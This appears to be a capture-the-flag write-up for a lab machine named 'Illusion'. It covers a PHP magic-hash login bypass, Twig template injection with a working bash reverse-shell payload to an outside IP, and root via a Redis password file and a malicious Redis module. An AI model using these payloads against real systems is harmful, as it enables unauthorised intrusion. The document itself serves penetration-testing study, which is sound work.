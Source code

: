 # Illusion

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.203
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:22 +08
Warning: 192.168.183.203 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.203
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

We can start proxying traffic through Burp.&#x20;

### Web Enum --> Magic Hashes

Port 80 presents a corporate web page with a Login:

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

The login page is basic and operates in PHP:

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work here. Brute forcing also doesn't work. Since this runs on PHP, we can try some Magic Hashes by submitting this request:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md" %}

This works because the `Location` header points to `dashboard.php` now.&#x20;

### Orders --> SSTI

The dashboard is simple.

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

If we submit any queries, we can see our order name pop up on the top:

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Since this website runs on PHP and the input value is printed out on screen, I wanted to test for SSTI by using `{{7*7}}` as the name of the order, and it works:

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

On Hacktricks, there's a whole section for Twig (PHP), and I tried their payload to run `id`:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

This confirms that SSTI works and we have RCE on the machine. Sending this payload gets us a reverse shell:

```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'")}}
```

<figure><img src="../../../.gitbook/assets/image (14) (12).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis Creds --> RCE

Within the user's directory, there was a Redis related file that contained a hash:

```
www-data@illusion:/home/james$ ls
local.txt  redis-openssl-gen-pass.txt
www-data@illusion:/home/james$ cat redis-openssl-gen-pass.txt 
sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
```

Checking the listening ports using `netstat` reveals that port 6379 is listening and is likely Redis:

```
www-data@illusion:/home/james$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -   
```

We can port forward this using `chisel`. Afterwards, we can access the Redis database using `redis-cli`. Attempts to run commands fail because we aren't authenticated:

```
$ redis-cli -h 127.0.0.1
127.0.0.1:6379> INFO
NOAUTH Authentication required.
```

In this case, we can try the hash that we found earlier.&#x20;

```
127.0.0.1:6379> AUTH sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
OK
127.0.0.1:6379> INFO
# Server
redis_version:6.2.6
<TRUNCATED>
```

There was nothing within the database that was interesting, but I did want to know who was running it. A quick `ps -elf` reveals that the `root` user is running it:

```
www-data@illusion:/home/james$ ps -elf |grep redis
5 S root         893       1  0  80   0 - 13071 -      10:21 ?        00:00:00 /usr/local/bin/redis-server 127.0.0.1:6379
0 S www-data    3221    3025  0  80   0 -  1625 pipe_w 10:37 pts/0    00:00:00 grep redis
```

Since `root` is running it and we can login, this means that we can also load any module that we want. This repository has a module that works:

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

Compile and upload the `.so` file to the machine. Then, load it within `redis-cli`:

<figure><img src="../../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell via `system.rev <IP> <PORT>`:

<figure><img src="../../../.gitbook/assets/image (8) (13).png" alt=""><figcaption></figcaption></figure>

Rooted!
